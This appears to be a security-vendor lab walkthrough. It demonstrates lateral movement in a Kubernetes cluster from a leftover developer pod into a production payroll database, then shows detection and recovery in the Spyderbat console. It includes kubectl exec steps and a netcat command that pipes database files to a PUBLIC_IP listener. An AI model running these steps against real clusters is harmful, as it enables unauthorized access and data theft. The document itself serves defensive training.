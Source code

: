 # Lateral Movement Within the Cluster

This scenario shows an attacker accessing one portion of a cluster, and using the access in that namespace to move to another and exfiltrate data.

## Running the Exploit

For this scenario, we are going to use some debugging resources left over by Bob, a developer who decided he needed to be able to get direct access to the RSVP app to debug it. Since he forgot to clean up after solving the bugs, there is now an extra pod in the build namespace with some convenient developer tools.

Let's exec into the developer pod to begin.

```sh
kubectl exec -it -n lateral-movement-build bobdev -- /bin/bash
```

Taking a look at the bash history, it looks like Bob used kubectl to get into another namespace:

```sh
history
```
```
    1  ls
    2  kubectl config view
    3  kubectl get pods -A
    4  kubectl get pods -n lateral-movement-prod
    5  kubectl describe pods -n lateral-movement-prod
    6  kubectl exec -n lateral-movement-prod payrolldb-6f7996c855-vrmrt -- hostname
    7  history
```

It looks like the deployment he was accessing is still here:

```sh
kubectl get pods -n lateral-movement-prod
```
```
NAME                         READY   STATUS    RESTARTS   AGE
payrolldb-6cd4447758-2zcq4   1/1     Running   0          3m9s
```

Let's follow in Bob's footsteps.

```sh
kubectl exec -it -n lateral-movement-prod $(kubectl get pods -n lateral-movement-prod -o jsonpath='{.items[0].metadata.name}') -- /bin/bash
```

Now, we have ended on a pod in the production namespace, and a database pod on top of that. Taking a look around:

```
root@payrolldb-6cd4447758-2zcq4:/# whoami
root
root@payrolldb-6cd4447758-2zcq4:/# ls
bin  boot  data  dev  docker-entrypoint-initdb.d  etc  home  js-yaml.js  lib  lib32  lib64  libx32  media  mnt	opt  proc  root  run  sbin  srv  sys  tmp  usr	var
root@payrolldb-6cd4447758-2zcq4:/# ls data/
configdb  db
```

It looks like we have full access to the database:

```sh
ls -la data/db
```

From here, we can directly extract the data we want. For example, using netcat: on a different publicly accessible computer with open ports (such as the jumpserver set up for the external lateral movement demo), run this command:

```sh
# on a separate attacker-controlled server
nc -l 1234 > download
```

Then run this in the pod:

```sh
apt update && apt install netcat
# make sure to edit this with the correct PUBLIC_IP of the listening server
cat data/db/collection-0-*.wt | nc PUBLIC_IP 1234
# wait a few seconds, then kill the command with Ctrl-C
```

On the public server, you should now have the collection-0 file in `download`.

```
[ec2-user@ip-172-32-65-41 ~]$ ls -l
total 20
-rw-r--r--. 1 ec2-user ec2-user 20480 Aug 21 21:48 download
```

## Investigation

Now that we have demonstrated lateral movement within the cluster, let's see what this looks like in Spyderbat. This test should trigger two Spydertraces - one for each container we have accessed. On the Spyderbat Console's Dashboard page, navigate to the Security tab. Under "Recent Spydertraces with a score > 50", there are two new traces, likely labeled `container_shell` or `root_shell` (or `falco_flag`, if you have the Falco integration installed). Select these two traces and click "Start Process Investigation" to start investigating these two traces together.

![The original messy trace](./lateral_movement_messy.png)

At first, the resuting graph may seem like a mess, but it is easy to clean up. First, let's make sure that we have all of the necessary information by zooming in and right-clicking on the root bach processes inside of each container, then selecting "Add X Descendants". You may also need to select "Add X Descendant Connections" if the option is available.

![The right-click menu for one of the bash processes](./lateral_graph_editing.png)

Next, we can take a look at bash's immediate children. It is clear from the tree connections that the `apt` processes have many descendants. In this case, they are mostly irrelevant; just extra processes used in the packaging tool. To remove them, right-click the `apt` processes, and select "Remove X Descendants".


![An example graph of this exploit.](./lateral_movement_process_graph.png)

With the noise out of the way, we can now clearly see the sequence of events. On the left side, the attacker accessed the bobdev container, and ran some kubectl commands. Looking at the details for the last kubectl process, we can see an exec into the payrolldb container.

![The details for the kubectl exec process](./kubectl_exec.png)

From there, the attacker explored their access, then installed a data exfiltration command and ran it, connecting to another IP. To ensure that you have the whole picture, you can right-click the `nc` connection and try adding the peer connection, or run a search for the remote IP address.

Once you have a graph that has all of the information you are interested in, you can save it and share it with other users in your organization by clicking "Copy Investigation Link" at the top of the graph view.

## Next Steps

With the data gathered in this investigation, we can now prepare a few recovery steps:

- Determine what data was in the file exfiltrated with the `nc` command.
- Remove the development container that Bob left.
- Check for any other containers that should not exist in the production environment. Spyderbat's Search feature could help with this - search for Containers where the image matches `*devops*`, for example.
- Rotate the kubectl access keys used to access the devops container and the payroll container.
- Revise debugging procedures for the affected applications.
- [Set up a Spyderbat cluster policy](https://docs.spyderbat.com/tutorials/guardian/how-to-put-guardrails-around-your-k8s-cluster-spyctl) to prevent unauthorized pods and images from being run in the cluster

## Further Reading

- [A detailed overview of Spyderbat's Search tool - Spyderbat Documentation](https://docs.spyderbat.com/concepts/search)
- [Guardian and Interceptor Policies - Spyderbat Documentation](https://docs.spyderbat.com/concepts/guardian)
- [How to Lock Down Your Workloads With Guardian Policies Using Spyctl - Spyderbat Documentation](https://docs.spyderbat.com/tutorials/guardian/how-to-lock-down-your-critical-workloads-with-policies-spyctl)

